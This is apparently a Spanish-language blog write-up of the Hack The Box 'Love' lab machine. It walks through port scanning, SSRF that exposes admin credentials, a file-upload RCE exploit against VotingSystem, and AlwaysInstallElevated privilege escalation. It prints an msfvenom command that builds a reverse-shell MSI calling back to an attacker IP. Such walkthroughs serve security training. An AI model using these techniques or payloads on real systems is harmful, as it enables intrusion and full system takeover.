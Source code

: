 ```yaml
---
title: "Love - Hack The Box"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://raw.githubusercontent.com/Wiinsad/Wiinsad.github.io/master/assets/images/machines/HTB/Love/data/love.png"
  teaser_home_page: true
  icon: "https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/icons/Hackthebox2.png?raw=true"
categories:
  - Writeup
  - HackTheBox
tags:
  - Ssrf
  - RCE
  - KeyRegsitry Abuse
---
```


<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/Wiinsad.github.io/master/assets/images/machines/HTB/Love/data/loveHTB.png">
</p>

La máquina **love** es una máquina virtual vulnerable de la plataforma HackTheBox con un nivel de dificultad **EASY** una calificación en el rank de 4.4, **9403 USER OWNS** y **8307 SYSTEM OWNS** con la ip **10.10.10.239** y un sistema operativo **Windows**.

## Port Scan

Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.10.239]** utilizando los parámetros:
- **-p-:**    Escaneo a toda la gama de puertos (65536).
- **-n:**     No hacen la resolución del DNS.
- **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
- **--open:** Muestra sólo los puertos con un estatus abierto.
- **-oG:**    Guarda la el output en formato Grepeable.


  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/scanPort.png">
  </p>


  Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPorts**, vemos que los puertos que destacaron en este caso fueron **80,135,139,443,445,3306,5000,5040,5985,5986,7680,47001,49664,49665,49666,49667,49668,49669,49670**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/Ports.png">
  </p>


  Ya identificados los puertos abiertos realizare un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - **-sC:** Script de enumeración básica de sondeo en puertos y servicios alojados.
  - **-sV:** Detección de versiones en servicios alojados en puertos.
  - **-p :** Puertos a inspeccionar.
  - **-oN:** Formatos de Nmap en los que se guardará el archivo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/PortServ.png">
  </p>

  Con este escaneo a versiones y servicio no pude sacar demasiada información así que empezare a enumerar manualmente los puertos, como veo que existe el puerto **80** entrare vía web para ver el contenido de la pagina.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/web.png">
  </p>

Al entrar se puede observar que existe un panel de login pero al no conocer las credenciales no puedo hacer gran cosa y ya que las cuentas por defecto no funciona como **"admin:admin, admin:'null',administrator:administrator, etc."** lo que haré sera con la herramienta de **openssl** conectarme al puerto 443 para ver si me brinda alguna información útil.


  Para hacer esto use el siguiente comando:

```bash
openssl s_client -connect 10.10.10.239:443
```

  Al hacer esto puedo ver que entre la información que me otorga se puede ver que existe un dominio **love.htb** y un subdominio **staging.love.htb**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/sub.png">
  </p>

  Estos dominios los agregare a la ruta de **/etc/hosts**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/hosts.png">
  </p>

  Ya implementado en mi **hosts** puedo ver que entrando a estos dominios por web específicamente a **staging.love.htb** puedo ver algo diferente a la web que anteriormente me mostró el puerto **80**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/web1.png">
  </p>

## Lateral Movement
  Examinando la pagina entrando a la pestaña de demo puedo ver que hay un panel en la seccion de **Demo** el cual me pide una **url**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/web2.png">
  </p>

 Haciendo pruebas en la web puedo ver que es vulnerable a una ataque **SSRF** ya que si ingreso la url de **http://localhost** me interpreta el contenido y me muestra el mismo panel de login que cuando accedía a la web por el puerto 80.

 <p align="center">
 <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/web3.png">
 </p>


 Sabiendo esto y recordando los puertos que estaban disponibles ingrese el puerto 5000 el cual desde mi navegador no es posible acceder pero ingresando lo como localhost en la web si es posible.

 <p align="center">
 <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/web4.png">
 </p>

 Como se puede ver el contenido que me da son unas credenciales que son para el usuario **admin** pero ingresando estas credenciales en el login de la web que se ingresa por el puerto **80** no es posible acceder pero haciendo **fuzzing** en la web puedo encontrar un subdirectorio **admin**.

 <p align="center">
 <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/fuzz.png">
 </p>

 Entrando a la url **http://love.htb/admin** puedo ver que existe un login similar y si ingreso las credenciales accedo al panel de administrador del gestor **VotingSystem**.

 <p align="center">
 <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/scan/web5.png">
 </p>

 Buscando en la herramienta de **searchsploit** existe un exploit el cual es un **File Upload RCE** y leyendo el exploit lo que hace es subir un archivo php el cual tengan contenido malicioso que me otorga una shell a la maquina y baypasea una mala sanitizacion de código que verifica en la cabecera si el archivo que se sube es una imagen.

 <p align="center">
 <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/exp.png">
 </p>


 Para poder usar este exploit se tienen que setear los datos del payload como **Ip, Username, Password, Ip Destino, Port Destino** y también se tiene que modificar las url que estan ya seteadas y adaptarlas a las que maneja la web eliminando el **/votesystem/** de las mismas.

 <p align="center">
 <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/pay.png">
 </p>

 <div align="center">
 <table class="center"><tr>
 <td><center><img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/b.png">
 <div class="caption" >Url Predeterminadas.</div></center></td>
 <td><center><img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/a.png">
 <div class="caption">Url Adaptadas.</div></center></td>
 </tr></table>
 </div>

 Ya modificado y adaptado el exploit haciendo uso de la herramienta de netcat para ponerme en escucha por el puerto **443** y en paralelo ejecutando el exploit veo que el exploit funciona correctamente y me otorga la **shell**.

 <p align="center">
 <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/shell.png">
 </p>

## Privilege escalation


Como se puede ver accedo como el usuario **phoebe** y ya puedo visualizar la flag de **user.txt**.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/flag.png">
</p>

Ahora que estoy dentro de la maquina toca escalar privilegios para esto iré a la ruta **C:\Users\Phoebe\AppData\Local\Temp** y con el comando **mkdir winsad** crear una carpeta donde pueda introducir la herramienta necesaria.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/temp.png">
</p>

En esta ocasión haré uso de la herramienta **winpeas** la cual sirve para enumerar un sistema Windows mostrando datos que recolecta de una scaner que hace el sistema.


Para esto me descargare el [winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) y compartiendo un recurso compartido por **smb** con impacket copiare en winpeas al equipo victima.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/winp.png">
</p>


Una vez que el binario esta en el equipo victima procedo a ejecutarlo y esperar los resultados.

En los resultados que mostró se puede ver que existen 2 llaves de registro habilitadas las cuales se pueden abusar para escalar privilegios con la ejecución de un binario **.msi** malicioso.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/elev.png">
</p>


Una vez visto esto voy a mi consola y con **msfvenom** me creo un binario msi el cual al ser ejecutado me entable una shell a mi equipo por el puerto 443.


```bash

msfvenom -p windows/x64/shell/reverse_tcp LPORT=443 LHOST=10.10.15.125 -f msi -o winshell.msi

```

Una vez creado el binario de igual forma levanto un recurso compartido por **smb** y copeo el binario a la carpeta que cree en la ruta **Temp**.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/winsh.png">
</p>

Como se pude ver a la hora de ejecutar el binario que cree en la maquina victima de lado de donde esttoy en escucha con **netcat** por el puerto 443 me otorga la shell como **nt authority\system**.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Love/intrusion/root.png">
</p>

